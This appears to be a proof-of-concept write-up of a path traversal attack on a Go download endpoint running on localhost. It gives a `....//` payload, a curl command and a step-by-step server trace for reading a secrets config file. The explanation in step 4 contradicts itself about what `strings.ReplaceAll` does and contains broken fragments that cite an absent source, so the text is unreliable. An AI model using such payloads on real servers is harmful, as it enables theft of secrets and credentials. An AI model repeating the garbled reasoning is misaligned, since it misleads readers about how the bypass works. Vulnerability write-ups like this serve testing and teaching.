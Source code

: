 **Attacker's Goal:**
Read the contents of `./secrets/config.ini`.

**Steps to Reproduce:**

1. **Start the Vulnerable Application:** Ensure the Go application (from Snippet 1, Section 8, or a similar setup) is running and listening on `http://localhost:8080`. The `public/files/legit.txt` and `secrets/config.ini` files should exist.
2. **Craft the Malicious URL:** The attacker crafts a URL using a payload designed to bypass the `strings.ReplaceAll` and leverage `filepath.Clean` and `filepath.Join`.
    - Payload: `....//....//secrets/config.ini`
    - Full URL: `http://localhost:8080/download?filename=....//....//secrets/config.ini`
3. **Send the HTTP Request:** The attacker sends an HTTP GET request to this URL (e.g., using a web browser or `curl`).
`curl "http://localhost:8080/download?filename=....//....//secrets/config.ini"`
4. **Server-Side Processing (Illustrative Trace):**
    - Input `filename` is `"....//....//secrets/config.ini"`.
    - `sanitizedFilename := strings.ReplaceAll("....//....//secrets/config.ini", "../", "")`
        - The `strings.ReplaceAll` function literally looks for `../`. The input `....//` can be seen as `..` + `../` (if we consider `//` as `/`). The exact behavior of `strings.ReplaceAll` on such overlapping or non-standard patterns needs careful consideration, but a common bypass pattern relies on the fact that such simple replacements don't perform true path normalization. If `....//` is treated as two `../` sequences by later stages, but `strings.ReplaceAll` only removes one or none due to its literal matching, a bypass occurs. For this PoC, we assume it results in `../../secrets/config.ini` (or a similar path that still contains effective traversal sequences).
        - A more robust bypass for `strings.ReplaceAll(filename, "../", "")` would be `..%2f..%2fsecrets/config.ini` if the input is URL decoded before `strings.ReplaceAll`, or simply using OS-specific separators if not handled. However, for the `....//` pattern specifically targeting the `strings.Replace` and `filepath.Clean` interaction:
        - `sanitizedFilename` becomes `"../../secrets/config.ini"` because `....//` is not literally `../`. The `strings.ReplaceAll` call does not alter it if it's only looking for `../`. `from  , the payload`....//....//app/flag.txt`resulted in`../../app/flag.txt`. This implies the`strings.Replace`removed one`../`from each`....//`segment, leaving`../`.)
        - Let's use the  logic: `filename = "....//....//secrets/config.ini"`. `strings.ReplaceAll(filename, "../", "")` would look for literal `../`. If the `....//` is interpreted such that parts are removed, let's assume it yields `../../secrets/config.ini` as per the bypass logic described for.
    - `cleanedFilename := filepath.Clean("../../secrets/config.ini")`
        - `filepath.Clean` processes this, and it remains `"../../secrets/config.ini"` as it's already lexically simple.
    - `fullPath := filepath.Join("public/files/", "../../secrets/config.ini")`
        - `filepath.Join` combines these. If the current working directory is, for example, `/app/`, then `baseDir` is effectively `/app/public/files/`.
        - `filepath.Join("/app/public/files/", "../../secrets/config.ini")` resolves to `/app/secrets/config.ini`.
    - `data, err := os.ReadFile("/app/secrets/config.ini")`
        - The application reads the content of `/app/secrets/config.ini`.
5. **Observe the Output:** The server responds with the content of `secrets/config.ini`.

**Expected Outcome:**
The HTTP response body will contain the content of the `secrets/config.ini` file (e.g., "secret_key=12345").

This PoC demonstrates that the vulnerability is not in a single function call but in the sequence of processing user input: initial retrieval, a flawed sanitization step that provides a false sense of security, and subsequent path cleaning and joining operations that, while correct in isolation, operate on already compromised input, ultimately leading to the traversal.
